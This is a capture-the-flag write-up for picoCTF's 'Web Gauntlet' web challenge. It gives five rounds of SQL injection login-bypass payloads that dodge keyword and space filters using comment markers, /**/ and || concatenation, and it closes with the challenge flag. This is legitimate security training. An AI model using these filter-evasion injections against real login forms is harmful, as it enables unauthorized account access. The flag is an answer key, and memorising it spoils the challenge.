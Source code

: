 # Web Gauntlet ❓
Tags: Web Exploitation<br>
Point: 200<br>
AUTHOR: MADSTACKS<br>
Description:<br>
Can you beat the filters? Log in as admin<br>
http://jupiter.challenges.picoctf.org:54319/ <br>
http://jupiter.challenges.picoctf.org:54319/filter.php

Hints:
- You are not allowed to login with valid credentials.
- Write down the injections you use in case you lose your progress.
- For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.
- sqlite
- If your cookie keeps getting reset, try using a private browser window

## Write-up: 📝
We have to get through all 5 SQLi challenges. One link gives the form , display query after wrong credential submission or nothing if the query statement contains filtered words.
The other links show the filtered words.
## Solution: 💯
### Round 1:

Filter: `or`

Login as admin so the username=admin, and query **sqli** here. Use `--` to comment out

User: `admin' --`

Pass: `123456` (arbitary string)

Our query: `SELECT * FROM users WHERE username='admin' --'  AND password='123'`

### Round 2:

Filter: `or and like = --`

Login as admin. Change comment out operator "--" to "/*"

User: `admin' /*`

Password: `123456` (arbitary string)

Our query: `SELECT * FROM users WHERE username='admin' /*'  AND password='123'`

### Round 3:

Filter: `or and = like > < --`

Beware of this round also filter **spaces** so we use the payload above and replace **spaces** with `/**/`

User: `admin'/**//*`

Password: `123456` (arbitary string)

Our query: `SELECT * FROM users WHERE username='admin'/**//*'  AND password='123'`

### Round 4:

Filter: `or and = like > < -- admin`

They filter the string **"admin"** if we input directly. So we need a **concatenation operator** and here we use `||`

User: `ad'||'min'/**//*`

Pass: `123456` (arbitary string)

Our query: `SELECT * FROM users WHERE username='ad'||'min'/**//*'  AND password='123'`

### Round 5:

Filter: `or and = like > < -- union admin`

With **union** filtered, our payload above is not affected.

User: ad'||'min'/**//*

Pass: `123456` (arbitary string)

Our query: `SELECT * FROM users WHERE username='ad'||'min'/**//*'  AND password='123'`

When you done reaching to 6/5 round. Back to **filter.php** file and the flag is there !

#### The Flag (for reference): ✔️
```
picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}
```

